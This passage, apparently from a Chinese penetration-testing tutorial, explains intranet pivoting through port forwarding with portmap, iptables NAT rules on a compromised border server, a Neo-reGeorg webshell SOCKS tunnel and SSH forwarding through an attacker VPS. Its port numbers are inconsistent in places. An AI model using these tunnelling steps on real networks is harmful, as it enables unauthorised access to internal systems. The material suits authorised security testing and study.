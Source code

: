 ```
./portmap -m 2 -p1 4444 -h2 公网主机ip -p2 3389
```

将 4444 端口的流量转发到 3389 端口

```
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 公网主机ip -p2 4444#内网主机执行
```

把内网的 22 端口转发到外网的 3389 端口 

linux iptables 使用：

```
vi /etc/sysctl.conf
  net.ipv4.ip_forward = 1#开启IP转发

#关闭服务
service iptables stop

#需要访问的内网地址：10.1.1.11（Windows）
#内网边界web服务器：192.168.100.100（Linux）

iptables -t nat -A PREROUTING --dst 192.168.100.100 -p tcp --dport 3389 -j DNAT--to-destination 10.1.1.11:3389iptables -t nat -A POSTROUTING --dst 10.1.1.11 -p tcp --dport 3389 -j SNAT --to-source 192.168.100.100

#保存重启服务
service iptables save && service iptables start
```

**4.5 webshell 代理工具**

配合 Webshell，复用目标的 Web 服务端口开一个 Socks5 代理隧道。

https://github.com/L-codes/Neo-reGeorg

```
#生成服务端
python3 neoreg.py generate -k password  

#在本地建立Socks5代理
python3 neoreg.py -k password -u http://xx/tunnel.php
```

还可以用作端口转发，把 webshell 所在主机的端口转发到本地（不出网的情况很好用），请自行探索

**4.6 ssh 隧道**

SSH 一般是允许通过防火墙的，而且传输过程是加密的

**本地转发（正向）**

在中传 VPS 上执行以下命令

```
ssh -CfNg -L <VPS监听端口>:<目标内网IP>:<目标端口> root@目标外网Web服务器（会要求输入密码）

ssh -CfNg -L 8080:10.1.1.3:3389 root@100.100.1.100

#VPS上查看8090端口是否已经连接
netstat -tulnp | grep "8090"

#连接目标内网服务器的远程桌面
VPS-IP:8090
```

